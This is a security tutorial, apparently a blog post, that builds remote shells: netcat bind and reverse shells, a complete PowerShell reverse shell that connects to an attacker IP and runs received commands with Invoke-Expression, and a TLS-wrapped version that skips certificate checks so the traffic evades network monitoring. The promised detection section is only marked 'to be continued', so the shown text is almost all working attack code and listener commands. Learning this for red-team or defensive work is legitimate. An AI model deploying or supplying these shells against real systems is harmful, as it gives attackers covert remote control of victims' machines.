




# Remote shell: Write and Hunt (Part 1).

A shell, its probably the goal of every security researcher, almost every critical flaws or 0-Day exploits give us a way to run a remote command inside a system (RCE - Remote Code Execution). 

Before copy and paste, we need to have a solid knowledge of what we are trying to reach, my goal here is to show ways that we can achieve a bind or a reverse shell and how do you detect this kind of threat.

Topics i want to cover:
* Bind shells
    - Understand the idea behind remote shells
    - Using Netcat for network porpuse
    - Exec something using Netcat
    - Run a bind shell with Netcat
* Reverse Shell
    - Run a reverse shell with Netcat

* Powershell
    - Understand the idea behind Powershell
    - Writing a raw socket connection with Powershell
    - Achieve a Reverse tcp shell with Powershell

* Encrypted Shells
    - TLS/SSL
    - Basic information gathering with openssl
    - Generating our certificates
    - Boost our reverse tcp shell into a reverse ssl shell

* Threat Analysis
    - Threat overview
    - Modeling with STIX
    - Weaponization
    - Exploitation
    - Installing & C2
* Detection
    - Network analysis with Wireshark
    - Network analysis with Zeek
    - Writing Zeek rules to detect this kind of behavior
    - Hunting in Windows for malicious powershell processes


# Bind shell

The word ***bind*** means that your system is ***listening*** for something, any incoming connection or any event that may trigger some action, the bind keyword is used in a lot of areas, you can have a bind function that wait for some input and will execute something based in that input.

A bind shell, it's when your system invoke your shell when some event comes, if we want to reach this over a network, we need a way to make this possible, and what event we can use to trigger this command line ? Yep, we can open a network port and wait for any connection, or wait for some kind of code (take a look at [Port knocking](https://en.wikipedia.org/wiki/Port_knocking)), so our goal here it's very simple, open a port inside our system and ***bind*** the incoming packets to our shell.

### The idea behind remote shells with netcat

Netcat its a tool for Network operations, mostly used in troubleshooting and for simple packet transfer operations, it allows you to listen in a port, connect to a remote host in a specifc port and also allows custom payloads in your tcp packets. We will use this for only educacional porpuse, because there is a few real world use for this as a shell.

#### Example:
```cmd
PS C:\Users\User\Documents> nc google.com 80
GET / HTTP/1.0
Host: www.google.com
```

Netcat is also called as nc, it comes by default in some Linux distributions and Windows versions, most recently Windows ***do not*** have Netcat, but for educacional purpose you can install [easily](https://sourceforge.net/projects/nc110/).

The command above, opens a connection into google.com at port 80 but with any data, we need pass to netcat any data we may want to, in this case I wrote a simple GET request to google itself, if you run that you will get a raw html response from google, the same way you would receive if you run curl or something like that.

Ok, netcat also allows us to listen for connections:



On the left terminal, i'm starting netcat with ***-l*** (listen), ***-n*** (Do not resolve names), ***-v*** (verbose) and ***-p*** (port). If you run this on Windows, the firewall pop-up will ask you for allows the connection (You can create a new firewall rule from cmd using netsh, take look in that :D ).

On the right terminal, i am using the previously command to connect to our localhost machine and to send data. 

You can look for the whole options inside [Netcat](http://sysunconfig.net/unixtips/netcat_readme.html), but for we create our bind/remote shell we will need the ***-e*** argument, this is for sure the most dangerous argument from netcat, sometimes this argument is not enabled by default and you will need to rebuild the source with GAPING_SECURITY_HOLE macro.

This options allows netcat to run a program in the response, this is used if you want to "serve" your software over the network, let's take a look in this simple say hello program.
```c
#include <stdio.h>

int main() {
    int something;
	puts("Hello");
    scanf("%d", &something);
    printf("%d\n", something);
}
```

If we want to serve this program over the network we can use the -e for it.

```
$ nc -lnvp 3333 -e ./sayhello 
```
And from another computer you can look for this service and receive the output of this program.
```
$ nc localhost 3333                                                        
85 # Our input
Hello # Remote output
85 # Remote output
```

So yeah, this function can be "useful", but if we can exec a software over netcat, we can exec our cmd or sh and interact from the same way we did before.

#### Running cmd.exe over network

This is not anymore a real world scenario, but it's a good way to illustrate how we can achieve and detect bind shells over our Network.



So netcat is listening for some connection at 3333 and binding everything to our cmd, this is, at its core, a ***bind shell***.


# Reverse shell

After understanding the idea behind the bind shell and raw socket connections, reverse shell is pretty easy, its exactly the opposite of a bind shell, instead from listen from incoming connections and exec something we will ***connect*** to a remote host and send our data to him. Easy to pick up this now, huh ? 

#### Using netcat

Look how this works:



Altrough this is a very simple approach, it's a essential concept to pick it up, because now we will dive into a more powerfull way to get remote shells writing our own ***Powershell*** implementation of this.


# Using Powershell

Powershell is a rich script language from Microsoft, that give us access to almost everything inside a Windows system, its mostly used for System management and in Server configuration (think that powershell has the same power that shell script has in Linux) and as it is written on top of .Net Framework, so we can access his features inside our script!

You don' need to be a expert in Powershell and programming to understand a reverse shell written in Powershell, you just need to have basic programming concepts and take a look in a [quick tutorial](https://docs.microsoft.com/en-us/powershell/scripting/samples/viewing-object-structure--get-member-?view=powershell-7).

First, let's define our scope based in everything said before, we will need:
* Connect to a remote host
* Receive data
* Run inside our Powershell
* Process output
* Send back

We need create each of this steps in Powershell scripting, so let's begin. 

To make a connection in some host, we will need create a socket, a TCP socket exactly, and this is available in .Net namespaces, more precisely in ***[System.Net.Sockets.TcpClient]***.

```powershell
$target = "172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
```

The ***New-Object*** directive allows us to create an object type in our memory, this has the same use of the ***new*** keyword, but here this create a .Net object in our Powershell script which allows us to access his features just like we are programming C# using .Net, this give us the ability to call TCPClient methods, take a look in this [C# tutorial](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient?view=netcore-3.1), you will see that we are able to call exactly the same methods here, so let's connect to this target at this port!

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port);
# Our code go here
$client.Close();
```

In our "attacker" machine i will use [Socat](http://www.dest-unreach.org/socat/) instead Netcat, because this give us a lot of new options that Netcat will no support, such as fork connections to allow multiple connections, create an SSL Channel and so on.

```shell
sudo socat -d -d TCP4-LISTEN:443,fork STDOUT
```
This will open our 443 for multiple TCP connections and will print everything in our stdout, the ***-d*** is the debug level, so if you run the Powershell script command above, I will get something like that in our Linux:

```
$ sudo socat -d -d TCP4-LISTEN:443,fork STDOUT
2020/05/21 15:22:41 socat[1684] N listening on AF=2 0.0.0.0:443
2020/05/21 15:22:43 socat[1684] N accepting connection from AF=2 172.16.110.131:1315 on AF=2 172.16.110.129:443
2020/05/21 15:22:43 socat[1684] N forked off child process 1685
2020/05/21 15:22:43 socat[1684] N listening on AF=2 0.0.0.0:443
2020/05/21 15:22:43 socat[1685] N using stdout for reading and writing
2020/05/21 15:22:43 socat[1685] N starting data transfer loop with FDs [6,6] and [1,1]
2020/05/21 15:22:43 socat[1685] N socket 1 (fd 6) is at EOF
2020/05/21 15:22:44 socat[1685] N exiting with status 0
2020/05/21 15:22:44 socat[1684] N childdied(): handling signal 17
```

Ok, so this is enough to create our channel between our [C2](https://en.wikipedia.org/wiki/Command_and_control), now we need to able to exchange data between the two sides.

We need a buffer to receive any data that we will send to our Powershell script, in order words, we need a Byte Array to save every byte that we send, this can be acomplished by creating a simple vector in Powershell:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff}; # Here

$client.Close();
```

Take a look at [Powershell Arrays](https://ss64.com/ps/syntax-arrays.html), the %{} operator, give us a shortcut to use ***foreach***, so basically i am get a 4K buffer and putting in every byte the value 0xFF (255). Now we need a way to read the stream of our tcpclient, that stream is all the data that are flowing to our socket:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream();

$client.Close();
```

Now, with this Stream, we can access the ***read*** method, which will read any data in our socket and save in some buffer, we will send our ***$buff*** variable to this and his length.

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

Write-Host $buff[0]; # For debugging

$client.Close();
```

Note that we have ***Write-Host*** here, we print the first value of our buff, this value will be the first byte itself we sent, but to execute something in our system we need that the command be in plain text, so we need decode this value into a char, or better, decode a range of bytes in our buffer into a string, for this type of decoding we will use the [.Net Text Namespace](https://docs.microsoft.com/en-us/dotnet/api/system.text.asciiencoding?view=netcore-3.1).

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

$command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);

$client.Close();
```
What we did here was, from the ASCIIEnconding Namespace, select the class ASCII and call his static method GetString from my $buff starting from the index 0 until we reach our $size,
now our ***$command*** variable holds the decoded string, if we send "Hello world" this variable will hold this text.

### Understanding expressions

Ok, before we continue our script it's very important to understand ***Expressions*** calls.

There is a few languages that give us the capalities to evaluate some kind of expression in raw string, and run the command itself, like: Javascript(eval), Python(eval), PHP(eval)... A lot of langs call this function as ***eval***, so what this really do ? Take a look at this python example:


#### Python
```python
>>> command = "print('Hello world')"
>>> eval(command)
Hello world
```

As you can see, our Python interpreter is also capable to read raw strings and interpret in real time, this is also possible in Powershell using the cmdlet ***Invoke-Expression*** or shorter ***iex***.

#### Back to our code

Take a look in this simple example and try to understand it:

```powershell
$helloCode = "Write-Host Hello eval!";
Invoke-Expression $helloCode;
```

It's the same idea here, our invoke-expression will interpret and execute our string that is passed! But let's try to associate this output with some kind of variable

```powershell
$response = Invoke-Expression $helloCode;
Write-Host $response;
```
This above, will not work because the Invoke-Expression response is a [PSObject Class](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.psobject?view=powershellsdk-7.0.0), that is a generic object type, you can look futher for their inside attributes, but there is a faster way to get this with ***Out-String*** cmdlet, this will be called using pipes and will the get string value (just like toString()) and return to us, that way we can get the string value itself.

```powershell
$response = Invoke-Expression $helloCode | Out-String;
Write-Host $response;
```

Now let's add that in our original code:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

$command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);

$command_response = iex $command | Out-String; # Invoke-Expression shorten

$client.Close();
```

Very good, now we can send a bunch of bytes, run that and get the output, we now just need to run a loop to read until there is no more connections and send the output back!

To send our messages back, we need to call the ***write*** method in our stream, it has the same arguments as the read, it gets the buffer to send, where to start and its size, but before sending data we need to be able to encode our string to send the all the bytes, this is easily accomplished by using the ***ASCII.GetBytes*** method, that requires the same arguments as ***GetString***, you see ? Powershell is very modular and intuitive to pick-up, Oh for our while loop we will need to wait the -1 response from the ***Read*** method, because that indicate to our script that the connection was lost!


So finally, our Powershell reverse shell from scratch is:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()


while (($size = $stream.Read($buff, 0, $buff.Length)) -ne -1) { # Until connection die
    $command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);
    $command_response = iex $command | Out-String; # Invoke-Expression shorten
    $command_back = [System.Text.ASCIIEncoding]::ASCII.GetBytes($command_response, 0, $command_response.Length);
    $stream.Write($command_back, 0, $command_back.Length);
}


$client.Close();
```

## Testing



So yeah, it's works, with a few lines of code we achieve a reverse Powershell, why this is more powerfull than a simple cmd.exe binded over netcat ? Because Powershell is a entire scripting languange focused on Windows, with this shell you can load DLL's in memory, execute your in-memory software and achieve administration commands!

# Encrypted shells

Using a normal raw TCP shell is not a good idea because all of our traffic will be in plain text, you can implement your own encryption functions to save your inputs/outputs but the communication will still be able to be captured by some Network monitor, and that is not a good idea, because this can compromise the attacker and reveal his malicious activities, or these reasons, TLS/SSL is used for communications, this allows that our channel between the target will be fully encrypted and look just like a normal encrypted traffic.


## TLS/SSL

Before dig in implementing an encrypted channel in our Powershell script and our C2, we need to understand what's happening behind a TLS/SSL channel.

TLS extends for Transport Layer Security, its designed to replace SSL(Secure Socket Layer), but as we still see both used in the wild, it's sometimes called TLS/SSL for every secure channel that use one of them.

The idea behind secure channels is find a way to encrypt all data in the traffic in a known cipher algorithm, such as [Aes256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard), [Camellia](https://en.wikipedia.org/wiki/Camellia_(cipher)), [3DES](https://en.wikipedia.org/wiki/Triple_DES), [RC2](https://en.wikipedia.org/wiki/RC2) or some stream cipher, by default you will find in 90% cases the usage of AES256 + [GCM](https://en.wikipedia.org/wiki/Galois/Counter_Mode).

Every key exchange part happens after the TCP Handshake, so you can interpret that TLS/SSL channels run in the application that are using TCP for his connections, for every session (aka communication channel) is created an unique [shared secret](https://en.wikipedia.org/wiki/Shared_secret) that are exchange between the two points using a [Key-Exchange Algorithm](https://en.wikipedia.org/wiki/Key_exchange), with this they can exchange a common key in a secure way. Every initial operation happen in a pre-encrypted channel using [Asymmetric cryptography](https://en.wikipedia.org/wiki/Public-key_cryptography).

Public certifcates used for TLS/SSL connections are specified in [X.509](https://tools.ietf.org/html/rfc5280) rfc, you still can use others certificates specifications, but the most used and supported is the X.509, in this model, the certificate comes with the public key used, a digital signature and metadata about the certificate, such a [Certified Authority(CA)](https://en.wikipedia.org/wiki/Certificate_authority) to validate the certified veracity

### Certificate creation

In your Linux machine, make sure to have ***openssl*** and ***socat*** installed for this part, first, we need to setup a new certifcate with our public information and our public key for our client be able to encrypt the initial communication.

Openssl command:

```
$ openssl req -newkey rsa:2048 -nodes -x509 -keyout my_priv_key.pem -out my_cert.cert
```

* req: X.509 Certificate Signing Request (CSR) Management
* -newkey: Create a RSA key-pair with 2048-bit
* -nodes:  Don't encrypt the ouput key
* -x509:   Output a x509 structure instead of a cert request
* -keyout: Output of our private key
* -out: certificate output

After you run this, there will be a couple of questions about the certificate, you can hit enter in everything. There will be now two files a ***.pem*** file and a ***.cert*** file, let's impersonate this .cert file with the utility x509 of openssl package:

```
$ openssl x509 -in my_cert.cert -text
```

This will show in text every information inside this x509 certificate, you can notice the importants parts here: RSA Public-Key, Signature Algorithm, Issuer information and Validity, this is all the information that our TLS/SSL lib will use to read that cert file, Ok, now lets continue!


### Encrypted channel with SOCAT


Now, as we have our certifcate and our private key generated, we can use SOCAT to listen for SSL connections using our cert file, socat expect that our private key be in the same file of our certficate (only for read porpuse of the software), so we need to concat everything inside another file, you can use cat for this:

```
$ cat my_cert.cert my_priv_key.pem > c2_cert.cert
```

Now lets run socat with this certifcate:

```
$ socat -d -d - OPENSSL-LISTEN:443,cert=c2_cert.cert,verify=0,fork 
```

Now we are ready to make encrypted connections, lets first use the same openssl tool for connect to our C2, just for debugging porpuse

```
$ openssl s_client -connect 127.0.0.1:443
```

Note that a bunch of information in the TLS/SSL handshake appears in the screen, but after the two hosts successfully exchange their sessions keys (PSK), a secure channel is established, and now we can work just like we are working with our netcat!


### SSL stream in Powershell


Now, let's modify a little our code to use an SSL stream in the connection instead a raw TCP connection.

We will use the [System.Net.Security.SslStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream?view=netcore-3.1) for this, in this .NET class we have a few constructors available, but we will use the ***SslStream(Stream, Boolean, RemoteCertificateValidationCallback)*** which give us the ability to defined our own verification function to the certificate, we do this because we don't want to verify the validity of this cert. The new snippet will look like this:

```powershell
$stream = New-Object System.Net.Security.SslStream($client.GetStream(), $false, {$true}, $null);
$stream.AuthenticateAsClient($target);
```

Note that we pass our current stream, false to leaveInnerStreamOpen(second argument), and a anonymous function that always return ***true*** in the certificate verification process and null to userCertificateSelectionCallback parameter.

With this we have a fully encrypted channel between our target and the attacker, we will enter in the Network connection details in the ***Threat Analysis and Detection*** section!


Reverse SSL Powershell code:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = New-Object System.Net.Security.SslStream($client.GetStream(), $false, {$true}, $null);
 
$stream.AuthenticateAsClient($target);


while (($size = $stream.Read($buff, 0, $buff.Length)) -ne -1) { # Until connection die
    $command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);
    $command_response = iex $command | Out-String; # Invoke-Expression shorten
    $command_back = [System.Text.ASCIIEncoding]::ASCII.GetBytes($command_response, 0, $command_response.Length);
    $stream.Write($command_back, 0, $command_back.Length);
}


$client.Close();
```


# Threat Analysis and Detection (Part 2)


To be continued...
